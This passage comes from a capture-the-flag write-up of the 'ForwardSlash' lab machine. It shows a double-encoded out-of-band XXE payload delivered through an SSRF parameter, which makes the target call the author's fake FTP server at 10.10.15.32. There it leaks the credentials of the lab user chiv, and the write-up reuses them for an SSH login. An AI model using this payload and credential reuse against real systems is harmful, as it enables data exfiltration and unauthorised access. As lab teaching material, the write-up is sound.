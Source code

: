 Our payload will look like this:

```
url=http://backup.forwardslash.htb/dev/index.php?xml%3d<%3fxml%2520version%253d"1.0"%2520%3f><!DOCTYPE%2520root%2520[<!ENTITY%2520%25%2520ext%2520SYSTEM%2520"ftp%3a//10.10.15.32/">%2520%25ext%3b]><api><request>dontcare</request></api>
```

PS: even if [burp][burp] automatically URL encode key character for us we need to double
encore the key character in the xml payload for the request to work.

But before let's start [xxeserv][xxeserv], a fake FTP server, then, when submitting the request we
will receive the credentials:

```
$ sudo xxeserv -p 21
[*] UNO Listening...
2020/07/05 19:32:51 [*] GO XXE FTP Server - Port:  21
2020/07/05 19:32:55 [*] Connection Accepted from [10.10.10.183:50146]
USER:  chiv
PASS:  N0bodyL1kesBack/
2020/07/05 19:32:55 [x] Connection Closed
2020/07/05 19:32:55 [*] Closing FTP Connection
```

Two important things were required here:

- running the FTP server on port 21 (eg. port 2121 was filtered)
- adding a leading slash to the request (eg. `ftp://10.10.15.32/` works but `ftp://10.10.15.32` not)

### Network exploitation: credential stuffing

Let's see if we can re-use the FTP credentials on SSH:

```
$ ssh chiv@forwardslash.htb
The authenticity of host 'forwardslash.htb (10.10.10.183)' can't be established.
ECDSA key fingerprint is SHA256:7DrtoyB3GmTDLmPm01m7dHeoaPjA7+ixb3GDFhGn0HM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'forwardslash.htb,10.10.10.183' (ECDSA) to the list of known hosts.
chiv@forwardslash.htb's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jul  5 17:42:11 UTC 2020

  System load:  0.0                Processes:            196
  Usage of /:   30.8% of 19.56GB   Users logged in:      0
  Memory usage: 19%                IP address for ens33: 10.10.10.183
  Swap usage:   0%

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

16 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Jul  5 15:11:43 2020 from 10.10.14.230
chiv@forwardslash:~$
```
